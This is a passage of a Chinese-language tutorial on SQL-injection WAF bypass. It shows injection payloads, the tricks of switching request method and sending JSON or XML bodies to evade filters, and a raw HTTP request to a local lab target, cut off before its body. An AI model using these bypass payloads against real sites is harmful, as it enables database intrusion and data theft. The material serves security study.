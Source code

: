 ## 实战 

使用命令：

```sql
?id=1' into @a,@b,@c--+
```

使用命令：

```sql
?id=1' into @a,@b--+
```

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1677657853191-ea579d59-a5a0-4f6a-b46c-6132d4cada3b.png)

# http 相同参数请求绕过★★ 

waf 在对危险字符进行检测的时候，分别为 post 请求和 get 请求设定了不同的匹配规则，请求被拦截，如果程序中能同时接收get、post，变换请求方式有几率能绕过检测。

 # application/json 或者 text/xml绕过 

有些程序是 json 提交参数，程序也是 json 接收再拼接到 SQL 执行， json 格式通常不会被拦截。所以可以尝试绕过 waf。

比如下面的数据包

```sql
POST /06/vul/sqli/sqli_id.php HTTP/1.1
Host: 192.168.0.115
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type:application/json
Content-Length: 38
Origin: http://192.168.0.115
Connection: close
Referer: http://192.168.0.115/06/vul/sqli/sqli_id.php
Cookie: PHPSESSID=e6sa76lft65q3fd25bilbc49v3; security_level=0
Upgrade-Insecure-Requests: 1

```